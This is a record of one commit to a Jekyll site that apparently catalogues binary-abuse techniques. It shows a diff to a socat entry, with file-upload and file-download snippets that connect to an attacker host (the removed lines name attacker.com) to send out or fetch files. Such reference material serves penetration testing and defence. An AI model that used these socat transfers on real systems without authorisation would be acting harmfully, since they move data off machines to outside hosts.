

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/socat.md, in a window 1280 px wide. Shown: the part 335-904 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update socat.md

```diff
--- a/_gtfoud/socat.md
+++ b/_gtfoud/socat.md
@@ -1,17 +1,11 @@
 ---
 functions:
   file-upload:
-    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
+    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:$NFILE,creat`` on the attacker box to collect the file.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
         socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
   file-download:
-    - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
+    - description: Run ``socat -u file:$LFILE tcp-listen:4444,reuseaddr`` on the attacker box to send the file.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_save
-        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
+        socat -u tcp-connect:$RHOST:$RPORT open:$NFILE,creat
 ---
```
